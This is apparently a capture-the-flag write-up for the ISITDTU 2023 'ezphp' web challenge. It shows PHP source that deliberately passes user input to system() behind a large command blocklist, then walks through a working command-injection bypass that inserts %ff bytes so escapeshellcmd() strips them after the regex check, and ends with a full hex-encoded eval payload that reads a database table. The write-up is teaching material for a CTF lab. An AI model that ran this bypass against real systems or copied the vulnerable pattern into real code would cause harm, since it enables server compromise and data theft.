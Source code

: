 ```yaml
---
layout: post
title: ISITDTU CTF Qualifiers 2023 - ezphp Writeup
excerpt: "Despite being titled ezphp, this challenge was anything but easy. Let's take a look at how I solved it."
categories: [Writeups]
tags: [web]
---
```

Despite being titled ezphp, this challenge was anything but easy. It took be beyond the end of the CTF to finish, but it was a fun challenge nonetheless. 

We are provided a link and some source code. The source code is as follows:

```php
<html>
 <head>
  <title> Debug Page...</title>

  <meta charset="utf-8">

  <link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css">
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.0/jquery.min.js"></script>
  <script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>

</head>
<body>
    <div class="container">
    <?php
    error_reporting(0);
    $conn = mysqli_connect('db', 'user', 'test', "dockerExample");


    $query = 'SELECT * From Person';
    $result = mysqli_query($conn, $query);

    echo '<table class="table table-striped">';
    echo '<thead><tr><th></th><th>id</th><th>name</th></tr></thead>';
    while($value = $result->fetch_array(MYSQLI_ASSOC)){
        echo '<tr>';
        echo '<td><a href="#"><span class="glyphicon glyphicon-search"></span></a></td>';
        foreach($value as $element){
            echo '<td>' . $element . '</td>';
        }

        echo '</tr>';
    }
    echo '</table>';

    $result->close();

    mysqli_close($conn);

    $blacklists = ["chgrp","mknod","run-parts","vdir","bunzip2","chmod","fgrep","mktemp","sed","wdctl","bzcat","chown","findmnt","more","bzcmp","cp","grep","mount","sleep","zcat","bzdiff","bash","gunzip","mountpoint","stty","zcmp","bzegrep","date","gzexe","mv","su","zdiff","bzexe","dd","gzip","nisdomainname","sync","zegrep","bzfgrep","df","hostname","pidof","tar","zfgrep","bzgrep","dir","kill","ps","tempfile","zforce","bzip2","dmesg","ln","pwd","touch","zgrep","bzip2recover","dnsdomainname","login","rbash","true","zless","bzless","domainname","ls","readlink","umount","zmore","bzmore","echo","lsblk","rm","uname","znew","cat","egrep","mkdir","rmdir","uncompress","m4","ab","make","addpart","make-first-existing-target","addr2line","mawk","apt","mcookie","apt-cache","md5sum","apt-cdrom","md5sum.textutils","apt-config","mesg","apt-get","mkfifo","apt-key","namei","apt-mark","nawk","ar","newgrp","arch","nice","as","nl","autoconf","nm","autoheader","nohup","autom4te","nproc","autoreconf","nsenter","autoscan","numfmt","autoupdate","objcopy","awk","objdump","b2sum","od","base32","open","base64","openssl","basename","pager","basenc","partx","bashbug","passwd","paste","patch","c89","pathchk","c89-gcc","perl","c99","c99-gcc","perl5.32.1","c_rehash","perlbug","captoinfo","perldoc","catchsegv","perlivp","cc","perlthanks","chage","pgrep","chattr","piconv","chcon","pidwait","checkgid","pinky","chfn","pkg-config","choom","pkill","chrt","pl2pm","chsh","pldd","cksum","pmap","clear","pod2html","clear_console","pod2man","cmp","pod2text","comm","pod2usage","compose","podchecker","corelist","cpan","printenv","cpp","cpp-10","prlimit","csplit","prove","curl","ptar","cut","ptardiff","deb-systemd-helper","ptargrep","deb-systemd-invoke","ptx","debconf","pwdx","debconf-apt-progress","ranlib","debconf-communicate","re2c","debconf-copydb","re2go","debconf-escape","readelf","debconf-set-selections","realpath","debconf-show","renice","delpart","reset","diff","resizepart","diff3","rev","dircolors","rgrep","dirname","rotatelogs","dpkg","rpcgen","dpkg-architecture","run-mailcap","dpkg-buildflags","runcon","dpkg-buildpackage","savelog","dpkg-checkbuilddeps","script","dpkg-deb","scriptlive","dpkg-distaddfile","scriptreplay","dpkg-divert","sdiff","dpkg-genbuildinfo","see","dpkg-genchanges","seq","dpkg-gencontrol","setarch","dpkg-gensymbols","setpriv","dpkg-maintscript-helper","setsid","dpkg-mergechangelogs","setterm","dpkg-name","sg","dpkg-parsechangelog","sha1sum","dpkg-query","sha224sum","dpkg-realpath","sha256sum","dpkg-scanpackages","sha384sum","dpkg-scansources","sha512sum","dpkg-shlibdeps","shasum","dpkg-source","shred","dpkg-split","shuf","dpkg-statoverride","size","dpkg-trigger","skill","dpkg-vendor","slabtop","du","snice","dwp","sort","edit","splain","elfedit","split","enc2xs","stat","encguess","stdbuf","env","streamzip","expand","strings","expiry","strip","expr","sum","factor","tabs","faillog","tac","fallocate","tail","fcgistarter","taskset","file","tee","fincore","test","find","tic","flock","timeout","fmt","tload","fold","toe","free","top","touch","tput","gcc","tr","gcc-10","truncate","gcc-ar","tset","gcc-ar-10","tsort","gcc-nm","tty","gcc-nm-10","tzselect","gcc-ranlib","unexpand","gcc-ranlib-10","uniq","gcov","unlink","gcov-10","unlzma","gcov-dump","unshare","gcov-dump-10","unxz","gcov-tool","update-alternatives","gcov-tool-10","uptime","gencat","users","getconf","utmpdump","getent","vmstat","getopt","w","gmake","wall","gold","watch","gpasswd","wc","gpgv","whereis","gprof","which","groups","who","h2ph","whoami","h2xs","head","hostid","htcacheclean","htdbm","htdigest","htpasswd","i386","iconv","id","ifnames","infocmp","infotocap","install","instmodsh","ionice","ipcmk","ipcrm","ipcs","ischroot","join","json_pp","last","lastb","lastlog","ld","ld.bfd","ld.gold","ldd","libnetcfg","link","linux32","linux64","locale","localedef","logger","logname","logresolve","lsattr","lscpu","lsipc","lslocks","xargs","lslogins","xsubpp","lsmem","xz","lsns","xzcat","lto-dump-10","xzcmp","lzcat","xzdiff","lzcmp","xzegrep","lzdiff","xzfgrep","lzegrep","xzgrep","lzfgrep","xzless","lzgrep","xzmore","lzless","yes","lzma","zdump","lzmainfo","zipdetails","lzmore","a2disconf","dpkg-reconfigure","policy-rc.d","a2dismod","e2freefrag","pwck","a2dissite","e4crypt","pwconv","a2enconf","e4defrag","pwunconv","a2enmod","faillock","readprofile","a2ensite","fdformat","remove-shell","a2query","filefrag","rmt","add-shell","groupadd","rmt-tar","addgroup","groupdel","rtcwake","adduser","groupmems","service","apache2","groupmod","split-logfile","apache2ctl","grpck","tarcat","apachectl","grpconv","tzconfig","check_forensic","grpunconv","update-ca-certificates","chgpasswd","httxt2dbm","update-mime","chmem","iconvconfig","update-passwd","chpasswd","invoke-rc.d","update-rc.d","chroot","ldattach","useradd","cpgr","userdel","cppw","newusers","usermod","delgroup","nologin","vigr","deluser","pam-auth-update","vipw","dpkg-fsys-usrunmess","pam_getenv","zic","dpkg-preconfigure","pam_timestamp_check","apache2-foreground","docker-php-ext-install","peardev","php","docker-php-entrypoint","docker-php-source","pecl","php-config","docker-php-ext-configure","freetype-config","phar","phpize","docker-php-ext-enable","pear","phar.phar","agetty","e2mmpstatus","fstrim","mkfs.ext2","swaplabel","badblocks","e2scrub","getty","mkfs.ext3","swapoff","blkdiscard","e2scrub_all","hwclock","mkfs.ext4","swapon","blkid","e2undo","installkernel","mkfs.minix","switch_root","blkzone","findfs","isosize","mkhomedir_helper","sysctl","blockdev","fsck","killall5","mkswap","tune2fs","chcpu","fsck.cramfs","ldconfig","pivot_root","unix_chkpwd","ctrlaltdel","fsck.ext2","logsave","raw","unix_update","debugfs","fsck.ext3","losetup","resize2fs","wipefs","dumpe2fs","fsck.ext4","mke2fs","runuser","zramctl","e2fsck","fsck.minix","mkfs","shadowconfig","e2image","fsfreeze","mkfs.bfs","start-stop-daemon","e2label","fstab-decode","mkfs.cramfs","sulogin"];
 
	$cmd = $_GET['cmd']; 
    foreach ($blacklists as $blacklist) {
    	$pattern = "/$blacklist/";
		if (preg_match($pattern, $cmd)) {
			die("Blacklist");
		}
	}

    system(escapeshellcmd($cmd));

    ?>
    </div>
</body>
</html>
```

We have a lot to look at, not only do have an extrmemly extensive blacklist, but we also have a database conneciton. We can see that the database connection is to a mysql database, and we can see that the database name is dockerExample.

Looking at the sql file we are given, we can see that there are two tables, Person and Flag_is_secret. 


```sql
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
SET time_zone = "+00:00";


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;


CREATE TABLE `Person` (
  `id` int(11) NOT NULL,
  `name` varchar(20) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

CREATE TABLE `Flag_is_secret` (
  `id` int(11) NOT NULL,
  `flagss1337` varchar(20) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

INSERT INTO `Person` (`id`, `name`) VALUES
(1, 'Doraemon'),
(2, 'Conan'),
(3, 'Hanamichi');

INSERT INTO `Flag_is_secret` (`id`, `flagss1337`) VALUES
(1, 'NA'),
(2, 'NA'),
(3, 'ISITDTU{fake_flag}');

/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;

```

We can see that the flag is stored in the Flag_is_secret table, but we unfornately cannot access it directly. This is where the cmd parameter comes in. 

We can use the cmd parameter to run commands on the server. However, we are limited by the blacklist.
    
```php
    $blacklists = ["chgrp","mknod","run-parts","vdir","bunzip2","chmod","fgrep","mktemp","sed","wdctl","bzcat","chown","findmnt","more","bzcmp","cp","grep","mount","sleep","zcat","bzdiff","bash","gunzip","mountpoint","stty","zcmp","bzegrep","date","gzexe","mv","su","zdiff","bzexe","dd","gzip","nisdomainname","sync","zegrep","bzfgrep","df","hostname","pidof","tar","zfgrep","bzgrep","dir","kill","ps","tempfile","zforce","bzip2","dmesg","ln","pwd","touch","zgrep","bzip2recover","dnsdomainname","login","rbash","true","zless","bzless","domainname","ls","readlink","umount","zmore","bzmore","echo","lsblk","rm","uname","znew","cat","egrep","mkdir","rmdir","uncompress","m4","ab","make","addpart","make-first-existing-target","addr2line","mawk","apt","mcookie","apt-cache","md5sum","apt-cdrom","md5sum.textutils","apt-config","mesg","apt-get","mkfifo","apt-key","namei","apt-mark","nawk","ar","newgrp","arch","nice","as","nl","autoconf","nm","autoheader","nohup","autom4te","nproc","autoreconf","nsenter","autoscan","numfmt","autoupdate","objcopy","awk","objdump","b2sum","od","base32","open","base64","openssl","basename","pager","basenc","partx","bashbug","passwd","paste","patch","c89","pathchk","c89-gcc","perl","c99","c99-gcc","perl5.32.1","c_rehash","perlbug","captoinfo","perldoc","catchsegv","perlivp","cc","perlthanks","chage","pgrep","chattr","piconv","chcon","pidwait","checkgid","pinky","chfn","pkg-config","choom","pkill","chrt","pl2pm","chsh","pldd","cksum","pmap","clear","pod2html","clear_console","pod2man","cmp","pod2text","comm","pod2usage","compose","podchecker","corelist","cpan","printenv","cpp","cpp-10","prlimit","csplit","prove","curl","ptar","cut","ptardiff","deb-systemd-helper","ptargrep","deb-systemd-invoke","ptx","debconf","pwdx","debconf-apt-progress","ranlib","debconf-communicate","re2c","debconf-copydb","re2go","debconf-escape","readelf","debconf-set-selections","realpath","debconf-show","renice","delpart","reset","diff","resizepart","diff3","rev","dircolors","rgrep","dirname","rotatelogs","dpkg","rpcgen","dpkg-architecture","run-mailcap","dpkg-buildflags","runcon","dpkg-buildpackage","savelog","dpkg-checkbuilddeps","script","dpkg-deb","scriptlive","dpkg-distaddfile","scriptreplay","dpkg-divert","sdiff","dpkg-genbuildinfo","see","dpkg-genchanges","seq","dpkg-gencontrol","setarch","dpkg-gensymbols","setpriv","dpkg-maintscript-helper","setsid","dpkg-mergechangelogs","setterm","dpkg-name","sg","dpkg-parsechangelog","sha1sum","dpkg-query","sha224sum","dpkg-realpath","sha256sum","dpkg-scanpackages","sha384sum","dpkg-scansources","sha512sum","dpkg-shlibdeps","shasum","dpkg-source","shred","dpkg-split","shuf","dpkg-statoverride","size","dpkg-trigger","skill","dpkg-vendor","slabtop","du","snice","dwp","sort","edit","splain","elfedit","split","enc2xs","stat","encguess","stdbuf","env","streamzip","expand","strings","expiry","strip","expr","sum","factor","tabs","faillog","tac","fallocate","tail","fcgistarter","taskset","file","tee","fincore","test","find","tic","flock","timeout","fmt","tload","fold","toe","free","top","touch","tput","gcc","tr","gcc-10","truncate","gcc-ar","tset","gcc-ar-10","tsort","gcc-nm","tty","gcc-nm-10","tzselect","gcc-ranlib","unexpand","gcc-ranlib-10","uniq","gcov","unlink","gcov-10","unlzma","gcov-dump","unshare","gcov-dump-10","unxz","gcov-tool","update-alternatives","gcov-tool-10","uptime","gencat","users","getconf","utmpdump","getent","vmstat","getopt","w","gmake","wall","gold","watch","gpasswd","wc","gpgv","whereis","gprof","which","groups","who","h2ph","whoami","h2xs","head","hostid","htcacheclean","htdbm","htdigest","htpasswd","i386","iconv","id","ifnames","infocmp","infotocap","install","instmodsh","ionice","ipcmk","ipcrm","ipcs","ischroot","join","json_pp","last","lastb","lastlog","ld","ld.bfd","ld.gold","ldd","libnetcfg","link","linux32","linux64","locale","localedef","logger","logname","logresolve","lsattr","lscpu","lsipc","lslocks","xargs","lslogins","xsubpp","lsmem","xz","lsns","xzcat","lto-dump-10","xzcmp","lzcat","xzdiff","lzcmp","xzegrep","lzdiff","xzfgrep","lzegrep","xzgrep","lzfgrep","xzless","lzgrep","xzmore","lzless","yes","lzma","zdump","lzmainfo","zipdetails","lzmore","a2disconf","dpkg-reconfigure","policy-rc.d","a2dismod","e2freefrag","pwck","a2dissite","e4crypt","pwconv","a2enconf","e4defrag","pwunconv","a2enmod","faillock","readprofile","a2ensite","fdformat","remove-shell","a2query","filefrag","rmt","add-shell","groupadd","rmt-tar","addgroup","groupdel","rtcwake","adduser","groupmems","service","apache2","groupmod","split-logfile","apache2ctl","grpck","tarcat","apachectl","grpconv","tzconfig","check_forensic","grpunconv","update-ca-certificates","chgpasswd","httxt2dbm","update-mime","chmem","iconvconfig","update-passwd","chpasswd","invoke-rc.d","update-rc.d","chroot","ldattach","useradd","cpgr","userdel","cppw","newusers","usermod","delgroup","nologin","vigr","deluser","pam-auth-update","vipw","dpkg-fsys-usrunmess","pam_getenv","zic","dpkg-preconfigure","pam_timestamp_check","apache2-foreground","docker-php-ext-install","peardev","php","docker-php-entrypoint","docker-php-source","pecl","php-config","docker-php-ext-configure","freetype-config","phar","phpize","docker-php-ext-enable","pear","phar.phar","agetty","e2mmpstatus","fstrim","mkfs.ext2","swaplabel","badblocks","e2scrub","getty","mkfs.ext3","swapoff","blkdiscard","e2scrub_all","hwclock","mkfs.ext4","swapon","blkid","e2undo","installkernel","mkfs.minix","switch_root","blkzone","findfs","isosize","mkhomedir_helper","sysctl","blockdev","fsck","killall5","mkswap","tune2fs","chcpu","fsck.cramfs","ldconfig","pivot_root","unix_chkpwd","ctrlaltdel","fsck.ext2","logsave","raw","unix_update","debugfs","fsck.ext3","losetup","resize2fs","wipefs","dumpe2fs","fsck.ext4","mke2fs","runuser","zramctl","e2fsck","fsck.minix","mkfs","shadowconfig","e2image","fsfreeze","mkfs.bfs","start-stop-daemon","e2label","fstab-decode","mkfs.cramfs","sulogin"];
```

It is truely extensive, and it took me a while to find a bypass. I tried a lot of different things, but I eventually found a bypass. 
```
%ff
```
This bypasses the blacklist, and allows us to run commands. As we can see here we can run "php"
![](https://i.imgur.com/ZzsHzgm.png)

We now have to connect to the mysql database in order to extract the flag. We can do this by running the following command:
```php
ª$c = new mysqli('db', 'root', 'test', 'dockerExample');
$r = $c->query('SELECT * FROM The_table_you_dont_know');
while ($w = $r->fetch_assoc()) {
    print_r($w);
}
```
This php code will connect to the mysql database, and print out the contents of the table `the_table_you_dont_know` as it not actually in the `flag_is_secret` table.

We can then convert this php into hex:
```
aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a
```

We can then use eval(), substr() and hex2bin() to run this php code:
```php
php -r eval(substr(hex2bin(aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a),1));
```

Thought we still have have an issue with the blacklist. We can bypass this by using %ff. There is a flaw in PHP's escapeshellcmd() function  which stems from its handling of invalid Unicode characters, creating a security gap ripe for exploitation. Initially, the input is scanned against a blacklist via regex, which fails to match harmful strings like `ph\xFFp` due to the presence of `\xFF`. When escapeshellcmd() is invoked, it removes these invalid Unicode characters, effectively transforming the string into something like php, which bypasses the original filter. This results in a discrepant string representation at the regex and shell escaping stages, ultimately leaving the system vulnerable to command injection attacks.

The php documentation says the following are escaped by escapeshellcmd():
```
&#;`|*?~<>^()[]{}$\, \x0A and \xFF.
``` 



Keeping this bypass in mind, we can then run the following command after url encoding it:
```php
p%ffhp+-r+ev%ffal(s%ffubst%ffr(hex2bin(aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a),1))%3b
```

We can then run this command in the url, and we get the flag:
![](https://i.imgur.com/DQQFSws.png)

Even though I struggled, I learned a lot, and I had a lot of fun. I hope you enjoyed this writeup, and thank you to the ISITDTU team for hosting this CTF. See you next year!